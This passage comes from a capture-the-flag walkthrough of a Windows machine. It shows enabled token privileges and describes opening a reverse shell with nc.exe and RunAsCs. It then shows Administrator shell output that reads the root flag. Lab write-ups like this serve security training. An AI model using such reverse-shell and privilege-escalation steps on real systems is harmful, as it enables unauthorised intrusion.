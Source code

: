 ```powershell
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled

PS C:\Users\svc_minecraft\Desktop>
```
{: .nolineno}
{: .nolineno}

Now lets have a reverse shell since I have <mark style="background: #FFB86CA6;">nc.exe</mark> executable on this machine so lets use it to have a shell ⏬

![Image](Pasted%20image%2020240414121841.png)
_RunAsCs Command for reverse shell using nc Tool_

```powershell
C:\Windows\system32>cd C:\Users\Administrator
cd C:\Users\Administrator

C:\Users\Administrator>
C:\Users\Administrator>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is C419-63F6
C:.
+---3D Objects
+---Contacts
+---Desktop
|       root.txt
|       
+---Documents
+---Downloads
+---Favorites
|   |   Bing.url
|   |   
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|       
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos

C:\Users\Administrator>type Desktop\root.txt
type Desktop\root.txt
84b9f35ddcbe0a82f8479cbf76d6fd54
```